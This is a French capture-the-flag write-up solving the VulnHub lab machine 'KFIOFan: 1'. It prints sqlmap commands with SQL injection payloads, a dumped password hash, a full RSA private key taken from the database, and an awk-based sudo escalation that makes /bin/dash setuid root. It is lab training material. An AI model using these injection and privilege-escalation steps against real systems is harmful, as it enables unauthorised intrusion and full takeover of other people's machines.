 ```yaml
---
title: "Solution du CTF KFIOFan: 1 de VulnHub"
tags: [CTF, VulnHub]
---
```


[KFIOFan: 1](https://vulnhub.com/entry/ctf-kfiofan-1,260/) est un CTF créé par un Youtuber français nommé [Khaos Farbauti Ibn Oblivion](https://www.youtube.com/@KhaosFarbautiIbnOblivion/featured).

Un scan de port nous remonte un service SSH et un Apache. Ce dernier requiert une authentification quelle que soit la requête (ou la méthode HTTP).

```console
$ curl -D- http://192.168.56.170/
HTTP/1.1 401 Unauthorized
Date: Mon, 10 Apr 2023 20:08:46 GMT
Server: Apache
WWW-Authenticate: Basic realm="47.833333 -0.7"
Content-Length: 65
Content-Type: text/html; charset=iso-8859-1

Laisse moi deviner Bob, tu as encore perdu ton mot de passe ? LOL
```

On remarque l'entête `WWW-Authenticate` qui semble donner des coordonnées GPS. Je les passe donc sur *Google Maps* qui m'indique :

```
5 Rue de la Courtille, 53200 Château-Gontier-sur-Mayenne
```

Après quelques essais l'authentification passe avec l'utilisateur `Bob` et le mot de passe `Château-Gontier`.

On tombe alors sur un *Dotclear*, CMS d'origine française que j'ai déjà utilisé par le passé.

Je remarque surtout une section de recherche qui semble custom. Même si aucune erreur SQL n'apparait lors de la saisie d'apostrophes et guillemets, c'est suffisant pour mériter de lancer `SQLmap`.

```bash
python sqlmap.py -u 'http://192.168.56.170/khaosearch.php' -H 'Authorization: Basic Qm9iOkNow6J0ZWF1LUdvbnRpZXI=' --data 'recherche=ee' --risk 3 --level 5
```

L'intuition était bonne :

```
sqlmap identified the following injection point(s) with a total of 248 HTTP(s) requests:
---
Parameter: recherche (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: recherche=-4122" OR 5409=5409-- oNWk

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: recherche=ee" AND (SELECT 3162 FROM (SELECT(SLEEP(5)))kFkJ)-- gyqB

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: recherche=ee" UNION ALL SELECT NULL,CONCAT(0x71706b6b71,0x526e646f714b4d6e7a7344625153704b41584e4f7a7565526a6166625a764a454a6f6c766e7a664d,0x71766a7671)-- -
---
[09:13:57] [INFO] the back-end DBMS is MySQL
web application technology: Apache
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
```

Dans la base de données `blog` on retrouve la table des utilisateurs ainsi qu'une mystérieuse table `ssh_keys`.

```
Database: blog
[19 tables]
+----------------+
| dc_blog        |
| dc_category    |
| dc_comment     |
| dc_link        |
| dc_log         |
| dc_media       |
| dc_meta        |
| dc_permissions |
| dc_ping        |
| dc_post        |
| dc_post_media  |
| dc_pref        |
| dc_session     |
| dc_setting     |
| dc_spamrule    |
| dc_user        |
| dc_version     |
| ssh_keys       |
| videos         |
+----------------+
```

Je récupère tout de même le hash d'_Alice_ : `$2y$10$4cqdn5uEkdFXICtcTvnZyOPdmwU8Uk.Wu6TJGEDwywzn7NrQFgAae`.

Mais ce que je trouve dans `ssh_keys` sera suffisant pour la suite :

```
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAs7nk559NSGWagGw3bDk25hc6nFuZLX0C66SSpNabiUXS3AL0
CXjH9APOukQlERFyZA4jQM4IC2jQcv5QqyjNe/Gd8M3WPPruygtZYlQ2SviEghuR
PECggL4OF/9ohAsPc3R7SXliMZtshOK+qFgs3pEnfZhw9B10qynKezdUiCB9rQ3R
8Ewbz7KCNIf/RnOYLygIHyR2mHCZnQXJvJq+jWosFDPQELeUNvb0UEyyneERkMEr
xsdi0T192DRYvHknkXOIdjC5Ba+RviDp9fRHGY3sw9dv6l8sYT8hYaTSzDeiTWm2
QtN5vNxHJXTMyX/PC+wA6NL9NZau1N/YxSHJcQIDAQABAoIBAF7R5IKO+ScI88pt
TZA7X0tlVfbIHLhzC+dmnDd7QfPacrTAmh+lKVkD6T08VpH6sm83RkIacQQT+GWy
5rxmeoK5pqo07qKdgP33nuDRrRNAqig6gxVWw1co7iabCXkgnLY87g6Fi9jANzCk
sBIA8ys5SaxpkK46HCNxmPII7wAhwcoE0/F/hQBrhWxZrBCMaEhCXtjdrLs1rEN+
TSLl/5A3h71DMVGwkW/LEvmt9wSE+urw+gd33ZxKD23Qvp6xF7ccMvrxIla40ZGH
RCDZTux4zOlMNePJB2D25LRsrnOExu9A1IQu7SajWy/vvPa3rjeY9k+j4PyU6C5V
3iRq7wECgYEA2wvf7wzeIlQdCNOzlUrdcTRHv5B9cViJUUz6kaq8R0UMkqpS4/k7
NNKGiAzk7C2tHkV9LK7QC0r35ERtJY8dj75PTR4ZNf9+eVtYQ9ZkycZFwYJGjEB+
AtXE5wMqObkuDiComm/1psrYF98n2d8O39Xvm88NqQTbY6B6NXMk1n0CgYEA0gvd
s5MV6GynUaJ3Hutpqbq1WNJwfFu5gAqLv1iv5DkmVhc6fcQSzGBRmhLUC7idJniM
k/CfSSjdntmNTC1cI1BydirtPYvaytWCef6lhoXPB5VAk7NdWRfepKpnYrKz2igx
+gZBFjEJBzWigKtEAAm+7YHTLzntmwZyk5teTQUCgYBiGBZHsoaD7xE1k8DXebhj
ats6sZVLvi94hjWsKD661/RCdh4607Es/Z6brNKT5fyiEtJ0wTCP7hnHUtFiQY4m
gj53NaRqpylXZY3Ii2mFZtJ0T0gSpQsJb/wGzEcLpJ84Wm3HA56J/Er7ncb17ct2
eBMevoHKkE9DdWllKFR17QKBgQC/UCeCZDnUFQLhDAVLmEgJXBHI8QObgUAYK4LV
qcWrLZKJX2bbHjexBxnMJ9ITSvd4Dtyb8tJiJGKXSLe15qrBT4ixsK+dG0EQ9h99
Vj8Vo9LJqVvEK96eQ2t6t+qqrvG5hlrey8uElu0OL//vCg9JqZbJZTIhFbYhOWIq
p5zgsQKBgGuZfQp3g+5KdL4yVCAUp5Pe7iBrd7EdU1zs6MLBFEXh6PpNWY+bQFAo
H33/4/uD3eao+c84qoZ8GTPgxF2nje4c9tf3u/6cWfjekyR7O+FZ0biINikaL3Qf
xE80Uy2XgPZj6q4DPZ/qeQLgYscC1OC/8KQXl6L3JoramGw0lQuq
-----END RSA PRIVATE KEY-----
```

On obtient notre premier accès au système :

```console
$ ssh -i alice.key alice@192.168.56.170
Linux kfiofan 4.9.0-7-amd64 #1 SMP Debian 4.9.110-1 (2018-07-05) x86_64



          .__....._             _.....__,
            .": o :':         ;': o :".
            `. `-' .'.       .'. `-' .'
              `---'             `---'

    _...----...      ...   ...      ...----..._
 .-'__..-""'----    `.  `"`  .'    ----'""-..__`-.
'.-'   _.--"""'       `-._.-'       '"""--._   `-.`
'  .-"'                  :                  `"-.  `
  '   `.              _.'"'._              .'   `
        `.       ,.-'"       "'-.,       .'
          `.                           .'
            `-._                   _.-'
                `"'--...___...--'"`

TIC TAC TIC TAC TIC TAC TIC TAC TIC TAC TIC TAC TIC

Last login: Thu Aug  2 23:53:20 2018 from 192.168.1.28
alice@kfiofan:~$ id
uid=1000(alice) gid=1000(alice) groupes=1000(alice),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
alice@kfiofan:~$ ls -a
.  ..  .bash_logout  .bashrc  flag3.txt  .profile  .ssh
alice@kfiofan:~$ cat flag3.txt
FLAG 3 : Bravo pour être arrivé jusqu'ici. Cela montre que tu maitrises très bien les notions essentielles ! Un dernier petit effort et le root est à toi !
```

Le `TIC TAC` dans le message d'accueil n'est pas engageant, on va tâcher de faire vite :)

L'utilisatrice peut exécuter AWK en tant que root :

```console
alice@kfiofan:~$ sudo -l
Entrées par défaut pour alice sur kfiofan :
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

L'utilisateur alice peut utiliser les commandes suivantes sur kfiofan :
    (root) NOPASSWD: /usr/bin/awk
```

AWK est un utilitaire, mais aussi un langage de programmation. On peut rechercher dans la manpage comment exécuter un programme.

Déjà, il y a une option pour spécifier un code AWK :

>       -f program-file  
>       --file program-file  
>              Read the AWK program source from the file program-file, instead of from the first command line argument.  Multiple -f (or --file) options may be used.

Et dans la partie concernant le langage, je trouve une fonction au nom explicite.

>       system(cmd-line)      Execute the command cmd-line, and return the exit status.  (This may not be available on non-POSIX systems.)  See the manual for the full details on the exit stat

C'est parti :

```console
alice@kfiofan:~$ echo 'system("chmod 4755 /bin/dash")' > setuid.awk
alice@kfiofan:~$ echo | sudo /usr/bin/awk -f setuid.awk 
alice@kfiofan:~$ ls -al /bin/dash
-rwsr-xr-x 1 root root 117208 janv. 24  2017 /bin/dash
alice@kfiofan:~$ /bin/dash
# id
uid=1000(alice) gid=1000(alice) euid=0(root) groupes=1000(alice),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
# cd /root
# ls
flag4.txt  genere_ssh_key.sh  genere_web_pass.sh  timer_reboot.sh  ville.txt
# cat flag4.txt
FLAG 4 : TERMINE ! Un grand bravo à toi pour être arrivé jusqu'ici : la machine est à toi, sa survie ou sa destruction repose désormais entièrement sur ton éthique. Bonne continuation Hacker
```

Et effectivement après la récupération du flag ma connexion s'est coupée et la clé SSH n'était plus acceptée (sans doute recréée à chaque fois).
